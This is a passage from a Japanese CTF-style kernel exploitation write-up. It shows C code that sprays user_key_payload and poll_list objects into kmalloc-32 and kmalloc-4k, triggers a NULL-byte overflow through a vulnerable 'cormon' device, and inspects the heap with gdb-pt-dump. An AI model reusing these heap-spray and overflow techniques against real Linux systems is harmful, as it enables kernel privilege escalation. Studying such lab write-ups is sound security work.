 ```spray_keys.c
  strcpy(desc, DESC_KEY_TOBE_OVERWRITTEN_SEQOPS);

  for (int ix = 0; ix != NUM_KEY_SPRAY; ++ix) {
    memcpy(desc + strlen(DESC_KEY_TOBE_OVERWRITTEN_SEQOPS), &ix, 4);
    char *key_payload = malloc(SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS);
    memset(key_payload, 'A', SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS);
    key_serial_t keyid0 = add_key("user", desc, key_payload, SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS, KEY_SPEC_PROCESS_KEYRING);
    if (keyid0 < 0) errExit("add_key 0");
  }
}
```

すると、以下のようにヒープの中にそれらしい箇所が見つかります(`pt -ss AAAAAAAA -align 8
`)。きっとコレが`kmalloc-32`でしょう。needleとして仕込んだ`AAAAAAAA`というペイロードと、その直前がshortの`0x08`(`ushort datalen`)であることからもわかります:
![](https://hackmd.io/_uploads/HkpRN-sli.png)
ところで、`user_key_payload`が連続していないことが見て取れますね。きっと、`CONFIG_SLAB_FREELIST_RANDOMIZE`らへんが有効化されているのでしょう。
続いて、`poll_list`を`kmalloc-4k`と`kmalloc-32`にスプレーしていきます。

```alloc_poll_list.c
  assign_to_core(0);
  for (int ix = 0; ix != NUM_POLLLIST_ALLOC; ++ix) {
    if(pthread_create(&threads[ix], NULL, alloc_poll_list, &just_fd) != 0) errExit("pthread_create");
  }
```

![](https://hackmd.io/_uploads/SktKxMseo.png)

![](https://hackmd.io/_uploads/B1r7z7jei.png)

今回はpollするイベントは`POLLERR`(`=0x0008`)で、使った`fd`は`0x00000004`なので、バイト列`0x0000000400080000`をニードルとして検索できます(`pt -sb 08000000040000000800000004000000 -align 16`。まぁ、`pt -sb fe01000004000000 -align 8`のほうが良さそう)。ところで、`struct poll_list`において、`struct pollfd[]`って8byteアラインされないんですね。おかげで`poll_list`がどこにも見つからない...!と発狂する羽目になりました。あ、ところでこの`pt`コマンドは[gdb-pt-dump](https://github.com/martinradev/gdb-pt-dump)のことです。

![](https://hackmd.io/_uploads/SJ9oezjei.png)

![](https://hackmd.io/_uploads/HJ6pZMogs.png)

さぁさぁ、とりあえずは各構造体が意図したサイズのキャッシュに入っていることが分かりました。
この状態で、一旦NULL-byte overflowさせてみます:
```overflow.c
void nullbyte_overflow(void) {
  assert(cormon_fd >= 2);
  memset(cormon_buf, 'B', 0x1000 + 0x20);
  strcpy((char*)cormon_buf + 1, "THIS_IS_CORMON_BUFFER");
  *cormon_buf = 0x00;

  if(write(cormon_fd, cormon_buf, 0x1000) != -1) errExit("nullbyte_overflow");
  errno = 0;
}
```
![](https://hackmd.io/_uploads/H1vxWQixj.png)
